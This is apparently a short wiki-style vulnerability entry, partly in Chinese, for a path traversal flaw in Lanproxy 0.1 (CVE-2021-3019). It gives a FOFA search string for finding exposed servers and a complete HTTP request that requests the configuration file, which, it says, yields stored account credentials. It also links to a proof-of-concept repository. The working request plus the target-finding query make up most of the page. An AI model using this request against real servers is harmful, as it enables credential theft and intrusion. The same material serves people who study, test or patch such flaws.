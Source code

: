 <languages  /> <translate>

漏洞影響
--------

</translate>

    Lanproxy 0.1

FOFA
----

    header= "Server: LPS-0.1"

<translate> 發送如下請求： </translate>

    GET /../conf/config.properties HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Connection: close

<translate> 成功在配置文件中讀取 賬號密碼。 </translate>

POC
---

<https://github.com/FanqXu/CVE-2021-3019/>